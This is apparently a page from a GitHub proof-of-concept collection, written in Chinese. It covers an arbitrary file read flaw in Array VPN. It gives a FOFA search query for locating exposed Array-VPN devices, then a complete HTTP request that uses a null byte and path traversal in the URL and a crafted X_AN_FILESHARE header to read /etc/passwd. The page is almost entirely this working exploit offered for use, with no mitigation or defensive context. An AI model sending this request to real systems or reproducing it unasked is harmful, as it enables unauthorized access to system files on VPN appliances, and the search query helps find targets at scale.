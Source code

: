 # Array VPN任意文件读取漏洞

## Array VPN任意文件读取漏洞

## fofa
```
product="Array-VPN"
```


## poc
```
GET /prx/000/http/localhost/client_sec/%00../../../addfolder HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X_AN_FILESHARE: uname=t; password=t; sp_uname=t; flags=c3248;fshare_template=../../../../../../../../etc/passwd
Dnt: 1
Upgrade-Insecure-Requests: 1
Connection: close

```
![image](https://github.com/wy876/POC/assets/139549762/a6915f3f-2242-4d1d-b3a3-9ff452439cbc)

